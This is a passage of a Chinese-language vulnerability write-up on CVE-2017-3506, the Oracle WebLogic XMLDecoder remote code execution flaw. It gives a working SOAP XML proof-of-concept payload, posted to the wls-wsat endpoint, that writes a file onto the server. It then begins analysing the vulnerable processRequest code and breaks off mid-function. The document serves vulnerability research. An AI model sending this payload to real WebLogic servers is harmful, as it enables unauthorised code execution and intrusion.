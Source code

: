 # XMLDecoder RCE起源: CVE-2017-3506

## 描述

CVE-2017-3506是一个XML Decoder RCE，并且在这个漏洞之后，针对Oracle发布的补丁，又陆续出现了其他的绕过方式，出现了CVE-2017-10271，CVE-2019-2725等。

本文是介绍起源，即CVE-2017-3506。

## PoC

Weblogic: 10.3.6

Post URL: http://172.16.100.97:7001/wls-wsat/CoordinatorPortType

Post Body:

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
	<soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.6.0" class="java.beans.XMLDecoder">
                <object class="java.io.PrintWriter">
                    <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                    <string>xmldecoder_vul_test444</string></void><void method="close"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
信息 1



##漏洞描述

本小节主要描述cve-2017-3506的漏洞代码。漏洞点主要是processRequest这个函数。

1. processRequest

   `weblogic/wsee/jaxws/workcontext/WorkContextServerTube.class`

    ```java
    public NextAction processRequest(Packet var1) {
        this.isUseOldFormat = false;
        if (var1.getMessage() != null) {
            HeaderList var2 = var1.getMessage().getHeaders();
            Header var3 = var2.get(WorkAreaConstants.WORK_AREA_HEADER, true);
            if (var3 != null) {
                this.readHeaderOld(var3);
                this.isUseOldFormat = true;
            }
   